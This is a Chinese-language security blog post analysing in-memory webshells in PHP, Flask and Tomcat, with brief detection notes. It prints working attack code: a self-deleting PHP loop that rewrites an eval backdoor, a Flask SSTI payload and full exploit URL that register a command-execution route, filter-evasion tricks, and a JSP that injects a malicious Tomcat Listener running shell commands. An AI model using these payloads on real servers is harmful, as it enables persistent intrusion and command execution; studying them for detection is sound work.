


# [](#webshell-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90)Webshell 内存马分析

> 内存 webshell 相比于常规 webshell 更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存 Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。

## [](#1-php-%E5%86%85%E5%AD%98%E9%A9%AC)1 PHP 内存马

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

php 内存马也就是 php 不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```php<br><?php<br>  set_time_limit(0);<br>  ignore_user_abort(1);<br>  unlink(__FILE__);<br>  while (1) {<br>  	$content = '<?php @eval($_POST["zzz"]) ?>';<br>  	file_put_contents("config.php", $content);<br>  	usleep(10000);<br>  }<br>?><br>``` |

-   `ignore_user_abort`：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
-   `set_time_limit`：设置允许脚本运行的时间，单位为秒。如果设置为 0（零），没有时间方面的限制。

### [](#12-%E6%A3%80%E6%B5%8B)1.2 检测

-   检查所有 php 进程处理请求的持续时间
-   检测执行文件是否在文件系统真实存在

## [](#2-python-%E5%86%85%E5%AD%98%E9%A9%AC)2 Python 内存马

### [](#21-%E5%8E%9F%E7%90%86)2.1 原理

Python 内存马利用 flask 框架中 SSTI 注入来实现，flask 框架中在 web 应用模板渲染的过程中用到 `render_template_string()` 进行渲染，但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现 python 内存马的注入。

在 icehexman [Github](https://github.com/iceyhexman/flask_memory_shell) 中对 flask 框架下的内存马进行了研究。

#### [](#211-flask-route)2.1.1 flask route

类比 tomcat 注册路由的机制，如 filter，如果想实现 python 内存马，也应该研究下 flask 是否能动态注册路由。

flask 常规注册的方式为使用装饰器 `@app.route()` 。而实际工作的函数为装饰器里调用的方法 `self.add_url_rule()` 。



add\_url\_rule 需要三个参数：

-   URL：和装饰器 `app.route()` 的第一个参数一样，必须以 `/` 开始。
-   endpoint：就是在使用 `url_for()` 进行跳转的时候，这个里面传入的第一个参数就是这个 endpoint 对应的值。这个值也可以不指定，默认值为函数名。
-   view\_func：只需要写方法名（也可以为匿名参数），如果使用方法名不要加括号，加括号表示将函数的返回值传给了 view\_func 参数。

#### [](#212-flask-context)2.1.2 flask context

想实现内存 webshell，关键点在于 `view_func` 。`view_func` 可以采用匿名函数定义逻辑，该方法要实现捕获参数值、执行命令、响应。

Flask 的工作原理：当一个请求进入 Flask，首先会实例化一个 Request Context，这个上下文封装了请求的信息在 Request 中，并将这个上下文放入到栈 `_request_ctx_stack` 的结构中，也就是说获取当前的请求上下文等同于获取 `_request_ctx_stack` 的栈顶元素 `_request_ctx_stack.top` 。

#### [](#213-flask-%E5%86%85%E7%BD%AE%E5%87%BD%E6%95%B0)2.1.3 flask 内置函数

通过 `{{...}}` 可以执行表达式，但是命名空间是受限的，没有 `builtins`，所以 `eval`、`popen` 这些函数是不能使用的。但是可以通过任意一个函数的 `func_globals` 而得到其的命名空间，而得到 `builtins`。

Flask 内置了两个函数 `url_for` 和 `get_flashed_messages`。也就是构造命令执行，可以使用：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```python<br>{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}<br><br>{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}<br>``` |

### [](#22-%E5%AE%9E%E7%8E%B0)2.2 实现

以下面的 Demo 代码为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>from flask import Flask, request<br>from flask import render_template_string<br>app = Flask(__name__)<br><br>@app.route('/')<br>def hello_world():<br>    return 'Hello World'<br><br><br>@app.route('/test',methods=['GET', 'POST'])<br>def test():<br>    template = '''<br>        <div class="center-content error"><br>        <h1>Oops! That page doesn't exist.</h1><br>        <h3>%s</h3><br>        </div><br>    ''' %(request.values.get('param'))<br><br>    return render_template_string(template)<br><br>if __name__ == '__main__':<br>    app.run(port=8000)<br>``` |

将 payload 拆解开：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```python<br>url_for.__globals__['__builtins__']['eval'](<br>	"app.add_url_rule(<br>		'/shell', <br>		'shell', <br>		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()<br>		)<br>	",<br>	{<br>		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],<br>		'app':url_for.__globals__['current_app']<br>	}<br>)<br>``` |

lambda 即匿名函数，payload 中 `add_url_rule()` 函数的第三个参数定义了一个 lambda 匿名函数，其中通过 os 库的 popen() 函数执行从 Web 请求中获取的 `cmd` 参数值并返回结果，其中该参数值默认为 `whoami`。

eval() 方法的语法：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```python<br>eval(expression[, globals[, locals]])<br>``` |

globals - 变量作用域，全局命名空间，如果被提供，则必须是一个字典对象。指定全局变量。

最终的 URL：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>http://IP:8000/param?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}<br>``` |


### [](#22-%E6%A3%80%E6%B5%8B)2.2 检测

-   查看所有内建模块中是否包含 eval、exec 等可以执行代码的函数如：class `warnings.catch_warnings`、class `site.Quitter`等。
-   检测 `self.add_url_rule()` 中特殊名字的路由如 shell 等。

### [](#23-%E9%80%83%E9%80%B8)2.3 逃逸

以 Python 沙箱逃逸的技巧为例：

-   `url_for` 可用 `get_flashed_messages` 或 `request.application.__self__._get_data_for_json` 等替换；
-   代码执行函数替换，如 exec 等替换 eval；
-   字符串可采用拼接方式，如 `['__builtins__']['eval']` 变为 `['__bui'+'ltins__']['ev'+'al']`；
-   `__globals__` 可用 `__getattribute__('__globa'+'ls__')` 替换；
-   `[]` 中括号可用 `.__getitem__()` 或 `.pop()` 替换；
-   …

## [](#3-java-%E5%86%85%E5%AD%98%E9%A9%AC)3 Java 内存马

### [](#31-%E7%AE%80%E4%BB%8B)3.1 简介

Java 内存马目前主要分为 2 类：

-   Servlet-API 型
    -   通过命令执行等方式动态注册一个新的 listener、filter 或者 servlet，从而实现命令执行等功能。特定框架、容器的内存马原理与此类似，如 spring 的 controller 内存马，tomcat 的 valve 内存马
-   字节码增强型
    -   通过 java 的 instrumentation 动态修改已有代码，进而实现命令执行等功能。

### [](#32-%E5%8E%9F%E7%90%86)3.2 原理

Servlet、Listener、Filter 由 `javax.servlet.ServletContext` 去加载，无论是使用 xml 配置文件还是使用 Annotation 注解配置，均由 Web 容器进行初始化，读取其中的配置属性，然后向容器中进行注册。

Servlet 3.0 API 允许使 ServletContext 用动态进行注册，在 Web 容器初始化的时候（即建立 ServletContext 对象的时候）进行动态注册。不同的容器实现方式略有差异，下文主要以 Tomcat 为例。

#### [](#321-tomcat)3.2.1 Tomcat

Tomcat 中主要包括四种容器，Engine、Host、Context、Wrapper

1.  Engine 为外部接口，可以配置多个 Host
2.  一个 Host 可以包含多个 Context(WEB 应用)
3.  一个 Context 可以包含多个 Wrapper
4.  每个 Wrapper 对应 1 个 Servlet


Context 对应的 Web 应用, 每一个 Context 都有唯一的 path, 这里的 path 不是指 servlet 绑定的 WebServlet 地址, 而是指的是独立的一个 Web 应用地址，就好比 Tomat 默认的 / 地址和 manager 地址就是两个不同的 web 应用，所以对应两个不同的 Context，要添加 Context 需要在 server.xml 中配置 docbase。

在一个 web 应用中可以配置多个访问路径，比如登录页面，后台管理等，对于同一个 Context 中不同的 WebServlet 地址，将会分配不同的 Wrapper。这就说明了每个 Context 可以对应多个 Wrapper，每个 Wrapper 对应一个 Servlet。说明同一个 web 应用 context 相同但是对应的 Wrapper 不同，然后根据不同的 Servlet 服务展示不同的内容。

技巧

IDEA 创建 Java Web 项目可参考：[https://blog.csdn.net/gaoqingliang521/article/details/108677301](https://blog.csdn.net/gaoqingliang521/article/details/108677301)

#### [](#322-listener-%E5%86%85%E5%AD%98%E9%A9%AC)3.2.2 Listener 内存马

> 监听器用于监听 Web 应用中某些对象的创建、销毁、增加，修改，删除等动作的发生，然后作出相应的响应处理。当监听范围的对象的状态发生变化的时候，服务器自动调用监听器对象中的方法。常用于统计网站在线人数、系统加载时进行信息初始化、统计网站的访问量等等。

主要由三部分构成：

-   事件源：被监听的对象
-   监听器：监听的对象，事件源的变化会触发监听器的响应行为
-   响应行为：监听器监听到事件源的状态变化时所执行的动作

在初始化时，需要将事件源和监听器进行绑定，也就是注册监听器。请求网站的时候，程序先自动执行 listener 监听器的内容, 再去执行 filter 过滤器，如果存在多个过滤器则会组成过滤链，最后一个过滤器将会去执行 Servlet 的 service 方法，即 `Listener -> Filter -> Servlet`。

Listener 是最先被加载的, 所以可以利用动态注册恶意的 Listener 植入内存马。

-   Listener 分类
    -   ServletContext 监听，服务器启动和终止时触发
        -   ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
        -   ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
    -   Session 监听，Session 建立摧毁时触发
        -   javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
        -   javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听
    -   Request 监听，每次访问服务时触发
        -   ServletRequestListener：对 Request 请求进行监听（创建、销毁）
        -   ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）

如果能动态添加 Listener 那 Request 监听最适合植入内存马。

`ServletRequestListener` 提供两个方法：`requestInitialized` 和 `requestDestroyed`，两个方法均接收 `ServletRequestEvent` 作为参数，`ServletRequestEvent` 中又储存了 `ServletContext` 对象和 `ServletRequest` 对象，因此在访问请求过程中可以在 request 创建和销毁时实现自己的恶意代码，完成内存马的实现。



|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>``` | ```java<br><%@ page import="org.apache.catalina.core.StandardContext" %><br><%@ page import="org.apache.catalina.core.ApplicationContext" %><br><%@ page import="java.lang.reflect.Field" %><br><%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><br><%@ page import="org.apache.jasper.tagplugins.jstl.core.Out" %><br><%@ page import="java.io.IOException" %><br><%@ page import="javax.servlet.annotation.WebServlet" %><br><%@ page import="java.io.InputStreamReader" %><br><%@ page import="java.io.BufferedReader" %><br><%<br>     Object obj = request.getServletContext();<br>     Field field = obj.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     ApplicationContext applicationContext = (ApplicationContext) field.get(obj);<br>     field = applicationContext.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     StandardContext standardContext = (StandardContext) field.get(applicationContext);<br>     ListenH listenH = new ListenH(request, response);<br>    standardContext.addApplicationEventListener(listenH);<br>    out.print("test");<br>%><br><%!<br>    public class ListenH implements ServletRequestListener {<br>        public ServletResponse response;<br>        public ServletRequest request;<br><br>        ListenH(ServletRequest request, ServletResponse response) {<br>            this.request = request;<br>            this.response = response;<br>        }<br><br>        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {<br>        }<br><br>        public void requestInitialized(ServletRequestEvent servletRequestEvent) {<br>            String cmder = request.getParameter("cmd");<br>            String[] cmd = new String[]{"/bin/sh", "-c", cmder};<br>            try {<br>                Process ps = Runtime.getRuntime().exec(cmd);<br>                BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));<br>                StringBuffer sb = new StringBuffer();<br>                String line;<br>                while ((line = br.readLine()) != null) {<br>                    //执行结果加上回车<br>                    sb.append(line).append("<br>");<br>                }<br>                String result = sb.toString();<br>                this.response.getWriter().write(result);<br>            }catch (Exception e){<br>                System.out.println("error ");<br>            }<br><br>        }<br>    }<br>%><br>``` |

通过 jsp 尝试动态添加 Listener，这里需要注意, 因为我们是直接通过 add 来添加, 所以每次访问该 jsp 页面的时候都会重复添加 Listener，导致恶意 payload 重复执行。添加成功后访问任意存在的页面 `?cmd=` 要执行的命令即可, 即使 jsp 文件被删除依然可以使用。

#### [](#323-filter-%E5%86%85%E5%AD%98%E9%A9%AC)3.2.3 Filter 内存马

Filter 被称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

未完待续。。

## [](#%E5%8F%82%E8%80%83)参考

-   [web 攻防技术|内存马分析](https://mp.weixin.qq.com/s/frszc9I61sTRddRKWRk_0Q)
-   [内存马到底是个什么东西](https://mp.weixin.qq.com/s/IT8rftwtbNxJeVf04gr-pQ)
-   [Tomcat 内存马学习](http://wjlshare.com/archives/1529)
-   [一文看懂内存马](https://www.freebuf.com/articles/web/274466.html)
-   [python flask 内存马](https://mp.weixin.qq.com/s/GRwEBS1UqsWA3MBvukypNg)
-   [Tomcat 内存马初探](http://li9hu.top/tomcat%e5%86%85%e5%ad%98%e9%a9%ac%e4%b8%80-%e5%88%9d%e6%8e%a2/)
